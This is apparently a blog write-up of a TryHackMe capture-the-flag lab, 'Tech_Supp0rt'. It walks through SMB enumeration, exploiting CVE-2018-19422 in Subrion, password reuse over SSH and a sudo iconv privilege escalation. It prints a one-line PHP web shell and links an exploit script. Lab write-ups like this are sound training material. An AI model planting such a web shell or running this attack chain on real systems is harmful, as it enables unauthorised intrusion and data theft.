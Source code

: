 ```yaml
---
published: true
layout: post_toc
title: THM-Tech_Supp0rt
categories: Writeup
---
```

# Tech_Supp0rt
![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-20.png){:width="70%"}

Hack into the scammer's under-development website to foil their plans.

## Nmap Scanning 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt.png){:width="70%"}

Based on the findings from Nmap, it appears that ports 22, 80, 139, and 445 are open. Now, we can proceed with the enumeration of the SMB (Server Message Block) protocol.

## SMB Enumeration 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-1.png){:width="70%"}


![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-4.png){:width="70%"}

By utilizing the anonymous/guest account, we can gain access to the **websvr** directory in the SMB protocol. We should proceed to download the file named "enter.txt."

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-5.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-6.png){:width="70%"}

The file "enter.txt" holds personal notes belonging to the scammer.  Additionally, port 80 appears to host multiple websites, including WordPress and Subrion. Within the obtained information, we discovered credentials for Subrion along with a hint about a "magical formula." By utilizing the "magic recipe" feature in CyberChef, we can determine that the password was encoded in both Base58 and Base32 formats. Fortunately, decoding it using the appropriate tools should be a straightforward process.

## Test site of the scammer

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-2.png){:width="70%"}

## Word press 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-13.png){:width="70%"}

## Subrion 4.2 panel 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-7.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-11.png){:width="70%"}

Upon investigating, it was found that the Subrion version in use is v4.2.1. Further research indicates that this version is susceptible to CVE-2018-19422. Exploiting this vulnerability with the provided script will allow us to effortlessly obtain a shell. [exploit script](https://packetstormsecurity.com/files/162591)
```php 
<?php system($_GET['cmd']); ?>
```

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-10.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-9.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-12.png){:width="70%"}

To proceed with the attack, we can establish an HTTP server on our own attack box and exfiltrate the "linpeas.sh" script to the target machine. using the script we can enumerate and find ways to escalate privileges. 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-14.png){:width="70%"}

Linpeas find out the credentials of admin of word press. 

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-16.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-15.png){:width="70%"}

We have gained access to the WordPress platform. Considering the possibility of password reuse by the scammer, we can explore the potential reuse of passwords in SSH keys.

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-17.png){:width="70%"}

With the credentials we acquired from WordPress, we can try using them to gain additional access. By inspecting the "**/etc/passwd**" file, we can identify the user accounts registered on the machine. In this case, we find that the user account is "**scamsite**." Utilizing the password obtained from WordPress, we can successfully log in to the SSH (Secure Shell) interface.

## Privilege escalation

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-18.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-29-THM-Tech_Supp0rt-19.png){:width="70%"}

Through our investigation, we discovered that the "**/usr/bin/iconv**" binary can be executed with sudo privileges. After researching in GTFO bins, we learned that if this binary is permitted to run as the superuser, it can potentially access the file system.

---
## References 
- https://tryhackme.com/room/techsupp0rt1
- https://gtfobins.github.io/gtfobins/iconv/
- https://packetstormsecurity.com/files/162591
- https://cyberchef.org/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)From_Base32('A-Z2-7%3D',false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=N3NLdm50WGRQRUpheGF6Y2U5UFhpMjR6YUZyTGlLV0NrIA